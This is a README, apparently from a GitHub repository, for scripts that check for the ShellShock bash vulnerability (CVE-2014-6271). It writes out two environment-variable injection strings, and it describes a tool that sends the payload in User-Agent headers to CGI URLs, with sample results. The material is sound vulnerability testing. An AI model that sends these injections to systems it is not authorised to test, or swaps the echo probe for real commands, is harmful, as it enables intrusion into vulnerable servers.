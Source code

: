 another_shellshock_test
=======================

Some scripts to test for the "ShellShock" vulnerability (CVE-2014-6271).

## shellshock_local.sh
Test for the two known (by me) version of this vulnerability:
- env x='() { :;}; echo vulnerable' bash -c echo;
- rm -f echo; env X='() { (a)=>\' bash -c "echo echo vulnerable" 2>/dev/null; cat echo
Do not run this script inside folders cotaining files names "echo", as it wil delete them. (sry for that)


## shellshock_cgi.py
Test if a cgi script is vulnerable.
USAGE:
 - ./shellshock_cgi.py url1 url2 url3
 - cat somefile | ./shellshock_cgi.py
ATM. only suports GET requests and deliver the exploit in the User_Agent. This could be changed in a short amount of time, though.

It runs two tests:
- text_attack: Tries to inject a known text into the result. Succesfull if the cgis STDOUT is returned as response.
- timing attack: Tries to inject a call to sleep.

EXAMPLE:
'''
user@host:~/workspace/security/shellshock$ ./shellshock_cgi.py http://localhost/index.html http://localhost/lol.php
- testing: http://localhost/index.html
Timing attack vulnerable: False
Known text attack vulnerable: False

- testing: http://localhost/lol.php
Timing attack vulnerable: True
Known text attack vulnerable: True
'''
